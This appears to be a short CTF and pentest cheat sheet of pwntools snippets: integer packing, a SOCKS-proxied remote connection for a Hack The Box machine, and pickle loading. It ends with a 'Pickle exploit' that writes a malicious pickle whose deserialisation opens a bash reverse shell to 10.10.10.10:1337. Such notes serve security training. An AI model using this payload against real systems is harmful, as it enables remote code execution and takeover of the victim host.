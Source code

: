 Pwntool Packing
```python
>>> p8(0)
b'\x00'
>>> p32(0xdeadbeef)
b'\xef\xbe\xad\xde'
>>> p32(0xdeadbeef, endian='big')
b'\xde\xad\xbe\xef'
>>> with context.local(endian='big'): p32(0xdeadbeef)
b'\xde\xad\xbe\xef'

Make a frozen packer, which does not change with context.

>>> p=make_packer('all')
>>> p(0xff)
b'\xff'
>>> p(0x1ff)
b'\xff\x01'
>>> with context.local(endian='big'): print(repr(p(0x1ff)))
b'\xff\x01'

```

Pwntools SOCKS proxy [xct solution to HTB retired machine](https://www.youtube.com/watch?v=w2K-bQNs3cg)
```python
from pwn import *

context.proxy = (sock.SOCK4, localhost, 9090)
# Functional code can start here
p = remote('localhost', 910, level='info')
# Functional code does here
# Then end with p.interactive() 
p.interactive()
```

To un-pickle the data you can: [Ref](https://stackoverflow.com/questions/24906126/how-to-unpack-pkl-file)
```python
import pickle

with open('serialized.pkl', 'rb') as f:
    data = pickle.load(f)
```

Pickle exploit
```python
import pickle, base64, os

class RCE:
    def __reduce__(self):
        cmd = ("/bin/bash -c 'exec bash -i &>/dev/tcp/10.10.10.10/1337 <&1'")
        return os.system, (cmd,)

if __name__ == "__main__":
    with open('badpickle.pkl', 'wb') as f:
        pickle.dump(RCE(),f)
    # Test with:
    # with open('badpickle.pkl', 'rb') as f:
    #    data = pickle.load(f)
```
